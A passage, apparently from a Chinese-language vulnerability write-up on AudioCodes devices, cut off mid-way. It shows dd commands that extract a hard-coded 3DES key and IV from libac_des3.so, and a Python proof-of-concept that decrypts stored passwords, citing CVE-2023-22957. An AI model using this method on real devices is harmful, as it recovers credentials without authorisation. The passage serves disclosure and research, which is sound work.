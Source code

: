 ```plain
Extraction of the Key:
$ offset=$(python3 -c 'print(int("00000fb8", base=16))')
$ dd skip=$offset count=24 if=libac_des3.so of=key.bin bs=1

Extraction of the IV:
$ offset=$(python3 -c 'print(int("00000fb0", base=16))')
$ dd skip=$offset count=8 if=libac_des3.so of=iv.bin bs=1
```

最后，可以使用一个简单的 Python 脚本来解密 AudioCodes 设备中的加密密码：

```plain
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
import base64
from Crypto.Cipher import DES3
from binascii import unhexlify

KEY = unhexlify('604075fb########################################')
IV  = unhexlify('a3a4####35cb####')

def decrypt(ciphertext):
    ciphertext_decoded = base64.b64decode(ciphertext)
    cipher = DES3.new(KEY, DES3.MODE_CBC, iv=IV)
    plaintext = cipher.decrypt(ciphertext_decoded)
    print("plain text password: {}".format(plaintext.decode('utf-8')))


def main():
    decrypt(sys.argv[1])


if __name__ == '__main__':
    main()
$ python3 poc.py VvlZOp5/5pM=

plain text password: system
```

这种硬编码的加密密钥的使用在 SYSS-2022-052（CVE-2023-22957）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957)

### 3.配置文件加密

接下来，我们注意到 AudioCodes 设备的配置文件也可以完全以加密的形式存储：
